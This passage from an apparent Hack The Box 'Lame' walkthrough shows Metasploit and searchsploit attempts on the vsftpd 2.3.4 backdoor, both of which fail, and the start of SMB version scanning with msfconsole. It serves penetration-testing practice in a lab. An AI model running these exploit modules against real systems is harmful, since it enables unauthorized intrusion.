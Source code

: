 ```
RHOSTS => 10.129.151.43
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> run

[*] 10.129.151.43:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.129.151.43:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```
I tried to look at different payloads but it seems I do not have many choices:
```
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> show payloads

Compatible Payloads
===================

   #  Name                       Disclosure Date  Rank    Check  Description
   -  ----                       ---------------  ----    -----  -----------
   0  payload/cmd/unix/interact                   normal  No     Unix Command, Interact with Established Connection
```
Searchsploit references another exploit using Python:
```
$cp /usr/share/exploitdb/exploits/unix/remote/49757.py vsftpd_exploit.py
$python3 vsftpd_exploit.py 10.129.123.233
Traceback (most recent call last):
  File "/home/pierre/Documents/htb/machines/lame/vsftpd_exploit.py", line 37, in <module>
    tn2=Telnet(host, 6200)
  File "/usr/lib/python3.9/telnetlib.py", line 218, in __init__
    self.open(host, port, timeout)
  File "/usr/lib/python3.9/telnetlib.py", line 235, in open
    self.sock = socket.create_connection((host, port), timeout)
  File "/usr/lib/python3.9/socket.py", line 843, in create_connection
    raise err
  File "/usr/lib/python3.9/socket.py", line 831, in create_connection
    sock.connect(sa)
TimeoutError: [Errno 110] Connection timed out
```
It seems no backdoor is opened at port 6200. Maybe the server has been patched.
### Samba
Using `msfconsole`, we can get the version of the Samba server:
```
[msf](Jobs:0 Agents:0) >> search scanner smb

Matching Modules
================

   #   Name                                                            Disclosure Date  Rank    Check  Description
   -   ----                                                            ---------------  ----    -----  -----------
   20  auxiliary/scanner/smb/smb_version                                                normal  No     SMB Version Detection

Interact with a module by name or index. For example info 23, use 23 or use auxiliary/scanner/smb/impacket/wmiexec

[msf](Jobs:0 Agents:0) >> use 20
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_version) >> options

Module options (auxiliary/scanner/smb/smb_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
```